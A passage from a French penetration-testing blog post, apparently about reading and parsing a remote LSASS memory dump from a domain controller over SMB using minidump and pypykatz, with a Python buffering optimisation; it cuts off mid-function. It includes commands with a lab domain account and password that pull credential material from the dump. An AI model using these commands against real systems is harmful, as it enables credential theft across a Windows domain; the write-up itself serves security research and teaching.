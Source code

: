 
```
minidump adsec.local/jsnow:Winter_is_coming_\!@DC01.adsec.local:/C$/Windows/Temp/lsass.dmp
```

Et de la même manière, pypykatz utilisant minidump, il pourra analyser le dump distant sans le télécharger complètement.

[![Remote Pypykatz](/assets/uploads/2019/11/pypykatz_patched.png)](/assets/uploads/2019/11/pypykatz_patched.png)

```
pypykatz lsa minidump adsec.local/jsnow:Winter_is_coming_\!@DC01.adsec.local:/C$/Windows/Temp/lsass.dmp
```

### Optimisations

Nous avons maintenant un moyen de lire et analyser un dump lsass à distance, sans avoir à télécharger les 150Mo de dump sur notre machine, c'est une belle avancée ! Cependant, même si nous ne devons pas tout télécharger, le dump prend beaucoup de temps, presqu'autant que le téléchargement. Cela est dû au fait qu'à chaque fois que minidump veut lire quelques octets, une nouvelle requête est effectuée vers le serveur distant. C'est très couteux en temps, et en ajoutant un peu de log, on se rend compte que minidump fait beaucoup, beaucoup de demandes de 4 octets.

Une solution que j'ai mise en place pour pallier ce problème est de créer un buffer local, et imposer un nombre minimal d'octets à lire lors d'une requête pour réduire l'overhead. Si une requête demande moins de 4096 octets, et bien nous demanderons quand même 4096 octets, que nous sauvegarderons en local, et nous ne reverrons que les 4 premiers.

Lors des appels suivant à la fonction `read`, si la taille de données demandée est dans le buffer local, on renvoie directement le buffer local, ce qui est bien plus rapide. Si en revanche la donnée n'est pas dans le buffer, alors un nouveau buffer de 4096 octets sera demandé.

Cette optimisation fonctionne très bien car minidump effectue beaucoup de lectures concomitantes. Voici comment elle a été mise en place.

```python
def read(self, size):
    """
    On envoie une chaine vide si la taille est 0
    """
    if size == 0:
        return b''

    
    if (self.__buffer_data["offset"] <= self.__currentOffset <= self.__buffer_data["offset"] + self.__buffer_data["size"]
            and self.__buffer_data["offset"] + self.__buffer_data["size"] > self.__currentOffset + size):
        """
```